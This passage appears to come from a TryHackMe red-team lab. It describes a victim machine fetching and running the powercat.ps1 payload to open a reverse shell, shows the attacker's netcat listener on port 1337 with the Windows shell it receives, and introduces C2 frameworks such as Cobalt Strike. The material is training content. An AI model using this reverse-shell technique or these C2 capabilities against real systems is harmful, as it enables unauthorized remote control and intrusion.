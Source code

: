 Now that we have executed the command above, the victim machine downloads theÂ powercat.ps1Â Â payload from our web server (on the AttackBox) and then executes it locally on the target usingÂ cmd.exeÂ and sends a connection back to the AttackBox that is listening on portÂ 1337. After a couple of seconds, we should receive the connection call back:

Terminal

```shell-session
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```

# Command And Control - (C2 Or C&C)
---

This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.

  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/9671adc6cb778fa7b151921f753e2f96.jpg)

What is Command and Control (C2)?

C2Â frameworks are post-exploitation frameworks that allow red teamers to collaborate and control compromised machines.Â C2Â is considered one of the most important tools for red teamers during offensive cyber operations.Â C2Â frameworks provide fast and straightforward approaches to:

- Generate various malicious payloads
- Enumerate the compromised machine/networks
- Perform privilege escalation and pivoting
- Lateral movementÂ 
- And many others

  

Some popularÂ C2Â frameworks that we'll briefly highlight are Cobalt Strike,Â PowerShellÂ Empire,Â Metasploit. Most of these frameworks aim to support a convenient environment to share and communicateÂ between red team operations once the initial access is gained to a system.

  

### Cobalt Strike

Cobalt Strike is a commercial framework that focuses on Adversary Simulations and Red Team Operations. It is a combination of remote access tools, post-exploitation capabilities, and a unique reporting system. It provides an agent with advanced techniques to establish covert communications and perform various operations,Â including key-logging, files upload and download,Â VPNÂ deployment, privilege escalation techniques, mimikatz, port scanning, and the most advanced lateral movements.  

### PowerShellÂ Empire
